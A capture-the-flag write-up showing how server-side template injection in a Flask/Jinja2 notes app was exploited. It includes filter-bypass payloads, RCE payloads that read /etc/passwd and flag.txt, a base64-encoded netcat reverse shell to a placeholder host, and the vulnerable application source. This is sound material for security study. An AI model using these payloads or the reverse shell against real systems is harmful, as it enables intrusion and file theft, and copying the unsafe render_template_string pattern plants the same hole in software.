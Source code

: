 # Discovery of SSTI vuln:
```
http://challenge2.lagncrash.com:17654/{{7*7}}
```
![](./1.png)
<br>
```
http://challenge2.lagncrash.com:17654/{{config}}
```
![](./4.png)
<br>
Reference: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection
<br>
<br>
<br>

# Getting bypass filter codes:
```
[[]|map|string|list][0][0] = <
[[]|map|string|list][0][42] = >
[[]|map|string|list][0][20] = _
[[g]|string|list][0][13] = '
[[g]|string|list][0][7] = .
```

<br>
<br>
<br>

# Decided to try the payload:
Payload:
```
{{ [[''|attr([[[]|map|string|list][0][20]*2,'class',[[]|map|string|list][0][20]*2]|join)|attr([[[]|map|string|list][0][20]*2,'mro',[[]|map|string|list][0][20]*2]|join)][0][2]|attr([[[]|map|string|list][0][20]*2,'subclasses',[[]|map|string|list][0][20]*2]|join)()][0][40](['fort', [1|float|string|list][0][1], 'py']|join,'r')|attr('read')() }}
```
Changed to /etc/passwd:
```
{{ [[''|attr([[[]|map|string|list][0][20]*2,'class',[[]|map|string|list][0][20]*2]|join)|attr([[[]|map|string|list][0][20]*2,'mro',[[]|map|string|list][0][20]*2]|join)][0][2]|attr([[[]|map|string|list][0][20]*2,'subclasses',[[]|map|string|list][0][20]*2]|join)()][0][40](['/etc/passwd','r')|attr('read')() }}
```
![](./2.png)
<br>
<br>
<br>
Ditching start from scratch to just get flag.txt
<br>
![](./3.png)
<br>

Reference: https://fireshellsecurity.team/asisctf-fort-knox/ (All the techniques)<br>
Reference: https://hackmd.io/@Chivato/HyWsJ31dI(Changing the techniques to do stuff)
<br>
<br>
<br>
# Review - Getting a shell :D
From https://fireshellsecurity.team/asisctf-fort-knox/:
https://abcdsh.blogspot.com/2019/04/writeup-asis-2019-quals-fort-knox.html</br>
This uses ```["61"["decode"]("hex")] = 'a'``` to bypass

RCE from payloadsallthethings:
```
{{''.__class__.mro()[1].__subclasses__()[396]('cat flag.txt',shell=True,stdout=-1).communicate()[0].strip()}}
```

Dumping subclass to get subprocess.Popen:
```
{{''['5F5F636C6173735F5F'['decode']('hex')]['mro']()[2]['5F5F737562636C61737365735F5F'['decode']('hex')]()}}

=

{{''.__class__.mro()[2].__subclass__()}}
```
subprocess.Popen:
```
{{''['5F5F636C6173735F5F'['decode']('hex')]['mro']()[2]['5F5F737562636C61737365735F5F'['decode']('hex')]()[230]}}

=

{{''.__class__.mro()[2].__subclass__()[230]}}
```
cat flag.txt again:
```
{{''['5F5F636C6173735F5F'['decode']('hex')]['mro']()[2]['5F5F737562636C61737365735F5F'['decode']('hex')]()[230]('cat flag.txt',shell=True,stdout=-1)['636F6D6D756E6963617465'['decode']('hex')]()[0]['7374726970'['decode']('hex')]()}}

=

{{''.__class__.mro()[1].__subclasses__()[396]('cat flag.txt',shell=True,stdout=-1).communicate()[0].strip()}}
```
Test for internet connection:
```
{{''['5F5F636C6173735F5F'['decode']('hex')]['mro']()[2]['5F5F737562636C61737365735F5F'['decode']('hex')]()[230]('curl portquiz.net:17654',shell=True,stdout=-1)['636F6D6D756E6963617465'['decode']('hex')]()[0]['7374726970'['decode']('hex')]()}}

Command:
curl portquiz.net:17654
```
Use base64 to bypass filter and get reverse shell:
```
{{''['5F5F636C6173735F5F'['decode']('hex')]['mro']()[2]['5F5F737562636C61737365735F5F'['decode']('hex')]()[230]('echo -n cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgeC54LngueCA4MCA+L3RtcC9m | base64 -d | sh',shell=True,stdout=-1)['636F6D6D756E6963617465'['decode']('hex')]()[0]['7374726970'['decode']('hex')]()}}

Command:
echo -n cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgeC54LngueCA4MCA+L3RtcC9m | base64 -d | sh

Revshell:
(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc x.x.x.x 80 >/tmp/f)
```
![](./5.png)</br>
Source code(Filters):
```
root@f6f551d6a9a4:/Photos-Docker-Flask/app# cat __init__.py
from flask import *
from flask import Flask, request, render_template, flash, url_for
from flask_sqlalchemy import SQLAlchemy
from flask import app
from flask_login import LoginManager
from flask_migrate import Migrate
from werkzeug.exceptions import HTTPException
from config import app_config
import re
from htmlentitydefs import name2codepoint
from flask import escape
from flask import flash

def htmlentitydecode(s):
        return re.sub('&(%s);' % '|'.join(name2codepoint),
                        lambda m: unichr(name2codepoint[m.group(1)]), s)

db = SQLAlchemy()
login_manager = LoginManager()

def create_app(config_name):
        app = Flask(__name__, instance_relative_config=True)
        from app import models

        app.config.from_pyfile('config.py')
        db.init_app(app)

        @app.route('/')
        def home():
                return render_template('home.html')

        @app.errorhandler(404)
        def error404(e):
                link = htmlentitydecode(request.url).replace('_','')
                template = '''
                <div>
                <h1>Oops! This page does not exist</h1>
                <h3>%s</h3>
                GO BACK TO:
                <ul class="menu">
                  <li><a href="{{ url_for('create_notes') }}">Create Notes</a></li>
                </ul>
                </div>
                ''' % (link)

                return render_template_string(template), 404

        migrate = Migrate(app,db)

        @app.route("/about")
        def about():
                return render_template("about.html")

        @app.route("/notes", methods=["GET", "POST"])
        def notes():
                notes = ''
                try:
                        ntitle = ((((((request.args['ntitle']).replace('{', '')).replace('}', '')).replace('_', '')).replace(',', '')).replace('|', '')).replace('[', '')
                        ndetail = ((((((request.args['ndetail']).replace('{', '')).replace('}', '')).replace('_', '')).replace(',', '')).replace('|', '')).replace('[', '')
                        notes = '''
                        <div>
                        <h1>Title: %s</h1>
                        <h3>Details: %s</h3>
                        </div>
                        ''' % (escape(ntitle), escape(ndetail))
                except:
                        pass
                return render_template_string(notes)



        @app.route("/create-notes", methods=["GET", "POST"])
        def create_notes():
                if request.method == "GET":
                        return render_template('create_notes.html')
                else:
                        try:
                                title = request.form['title']
                                detail = request.form['detail']
                        except:
                                title =  ''
                                detail = ''
                        return redirect(url_for('notes', ntitle=title, ndetail=detail))

        return app
```